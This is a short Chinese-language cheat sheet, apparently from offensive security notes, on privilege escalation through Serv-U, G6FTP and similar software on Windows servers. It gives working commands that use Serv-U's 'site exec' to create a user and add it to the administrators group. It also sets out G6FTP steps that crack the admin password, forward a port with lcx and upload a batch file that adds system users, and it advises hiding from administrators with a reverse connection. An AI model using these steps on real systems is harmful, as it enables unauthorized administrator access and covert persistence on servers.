 * **FTP软件**：
  * server-u
  * g6ftp
  * FileZilla

* **远程管理软件**
  * PCanywhere
  * radmin
  * vnc

* **中简件（含有高权限）**
  * winmail server
  * phpstudy
  * wamp
  * upupw
  * tomcat
  * Strus2

### 【server-u提权】

* **条件**
  * 有修改权限
  * 检查是否有可写权限   修改server-u默认安装目录下的ServUDaemon.ini

* **方法**
  * （1）增加用户
  * （2）连接
  * （3）执行命令
    ```
    quote site exec net user cracer cracer.com /add
    quote site exec net localgroup administrators cracer /add
    ```
  
* **无修改权限**
  * 暴力破解md5
  * 溢出提权
>要注意创建用户会被管理员发现，可以使用powershell一类代码可以创建反弹链接


### 【g6ftp提权】

* **条件**
  * g6ftp一般侦听本地端口，需要端口转发

* **方法**
  * （1）下载管理配置文件，将adminnistraotr管理密码破解
  * （2）使用lcx 端口转发（默认只允许本机连接）
    ```powershell
    lcx.exe -tran 8027 127.0.0.1 8021
    ```
  * （3）使用客户端以管理员用户登录
  * （4）创建用户并设置权限和执行的批处理文件
  * （5）上传批处理
  * （6）以创建的普通用户登录ftp
  * （7）执行命令 quote site adduser
  * （8）x.bat  内容为 添加系统用户 提权
